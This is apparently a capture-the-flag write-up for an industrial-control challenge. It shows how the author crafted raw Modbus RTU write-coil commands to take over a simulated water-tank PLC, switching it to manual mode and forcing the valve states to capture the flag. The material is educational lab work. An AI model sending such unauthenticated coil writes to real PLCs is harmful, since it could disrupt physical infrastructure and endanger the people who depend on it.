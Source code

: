 ```
Our infrastructure is under attack! The HMI interface went offline and we lost control of some critical PLCs in our ICS system. Moments after the attack started we managed to identify the target but did not have time to respond. The water storage facility's high/low sensors are corrupted thus setting the PLC into a halt state. We need to regain control and empty the water tank before it overflows. Our field operative has set a remote connection directly with the serial network of the system.
```
![Pasted image 20230828215353](https://github.com/asde0/asde0.github.io/assets/86926081/61a3e90a-eebf-4a76-8f7e-e7b376515824)

![Pasted image 20230828215026](https://github.com/asde0/asde0.github.io/assets/86926081/11775ffb-ef4f-47c9-88b6-ae6ce4d59408)



### Approach

- https://en.wikipedia.org/wiki/Ladder_logic

__Rung input__

Checkers (contacts)

- `—[ ]—` Normally open contact, closed whenever its corresponding coil or an input which controls it is energized. (Open contact at rest.)
- `—[\]—` Normally closed ("not") contact, closed whenever its corresponding coil or an input which controls it is not energized. (Closed contact at rest.)

__Rung output__

Actuators (coils)

- `—( )—` Normally inactive coil, energized whenever its rung is closed. (Inactive at rest.)
- `—(\)—` Normally active ("not") coil, energized whenever its rung is open. (Active at rest.)


```
We need to regain control and empty the water tank before it overflows.
```

`in_valve` should be 0 and `out_valve` should be 1. Currently, its the opposite.

I think activating `manual_mode` instead of `auto_mode` and reversing valve values through modbus should do the trick.

Can't get the format correctly. 
```
The following is an example of a Modbus RTU request for obtaining the AI value of the holding registers from registers # 40108 to 40110 with the address of the device 17.
```

__11 03 006B 0003 7687__

|   |   |
|---|---|
|**11**|THE ADDRESS OF THE SLAVEID DEVICE (17 = **11** HEX)|
|**03**|Functional code Function Code|
|**006B**|The address of the first register (40108-40001 = 107 = **6B** hex)|
|**0003**|The number of required registers (reading 3 registers from 40108 to 40110)|
|**7687**|CRC checksum|

No need for checksum so tried :

```
1. Get status of system
2. Send modbus command
3. Exit
Select: 2
Modbus command: 82 03 006B 0003
Invalid command: command is not the right length
1. Get status of system
2. Send modbus command
3. Exit
Select:
```

Apparently spaces are not needed
```
Modbus command: 0x41B15C2922
Invalid command: String contains non hex characters
```

82 -> 0x52
3   -> 0x03

`5203006B0003` is in the correct format.


**Function 05 (05hex) Write Single Coil**

Writes a single coil to either ON or OFF.

**Request** 
The request message specifies the coil reference to be written. Coils are addressed starting at zero-coil 1 is addressed as 0.

The requested ON / OFF state is specified by a constant in the request data field. A value of FF 00 hex requests the coil to be ON. A value of 00 00 requests it to be OFF. All other values are illegal and will not affect the coil.

Here is an example of a request to write coil 173 ON in slave device 17:

|   |   |   |
|---|---|---|
|**Field Name**|**RTU (hex)**|**ASCII Characters**|
|Header|None|: (Colon)|
|Slave Address|11|1 1|
|Function|05|0 5|
|Coil Address Hi|00|0 0|
|Coil Address Lo|AC|A C|
|Write Data Hi|FF|0 0|
|Write Data Lo|00|F F|
|Error Check Lo|4E|LRC (3 F)|
|Error Check Hi|8B|None|
|Trailer|None|CR LF|
|Total Bytes|8|17|
https://www.modbustools.com/modbus.html#function05

![Pasted image 20230828225736](https://github.com/asde0/asde0.github.io/assets/86926081/e4a5f08e-1bca-4fcd-96b0-3d7dcb091358)

Setting `manual_mode_control` to 1:

hex(9947) = 26DB
hex(82) = 52 
`520526DBFF00` worked.

```
1. Get status of system
2. Send modbus command
3. Exit
Select: 1
{"auto_mode": 1, "manual_mode": 0, "stop_out": 0, "stop_in": 0, "low_sensor": 0, "high_sesnor": 0, "in_valve": 1, "out_valve": 0, "flag": "HTB{}"}
1. Get status of system
2. Send modbus command
3. Exit
Select: 2
Modbus command: 520526DBFF00
Modbus command sent to the network!
1. Get status of system
2. Send modbus command
3. Exit
Select: 1
{"auto_mode": 0, "manual_mode": 1, "stop_out": 0, "stop_in": 0, "low_sensor": 0, "high_sesnor": 0, "in_valve": 1, "out_valve": 0, "flag": "HTB{}"}
```

### Deactivating `in_valve`:

`52 05 000C 0000`

Trying to make `in_valve` 0 through the above doesn't work.

Hmmm...

![Pasted image 20230828230607](https://github.com/asde0/asde0.github.io/assets/86926081/b86d5426-372f-49e3-bf73-81f638223273)

Since `manual_mode` is activated, need to enable `cutoff_in` to disable `in_valve`.

![Pasted image 20230828230751](https://github.com/asde0/asde0.github.io/assets/86926081/fbcd3fc2-92ef-4749-a3b7-b78e7b640a97)

```
{"auto_mode": 0, "manual_mode": 1, "stop_out": 0, "stop_in": 1, "low_sensor": 0, "high_sesnor": 0, "in_valve": 0, "out_valve": 0, "flag": "HTB{}"}
```

Need to enable `out_valve` now.

![Pasted image 20230828231134](https://github.com/asde0/asde0.github.io/assets/86926081/a1c79354-c89f-4649-9d5b-df1c5d913695)

Enabling `force_start_out` should do the trick.

```
Select: 2
Modbus command: 52050034FF00
Modbus command sent to the network!
1. Get status of system
2. Send modbus command
3. Exit
Select: 1
{"auto_mode": 0, "manual_mode": 1, "stop_out": 0, "stop_in": 1, "low_sensor": 0, "high_sesnor": 0, "in_valve": 0, "out_valve": 1, "flag": "HTB{14dd32_1091c_15_7h3_1091c_c12cu175_f02_xxxxxxxxxx_5y573m5}"}

```

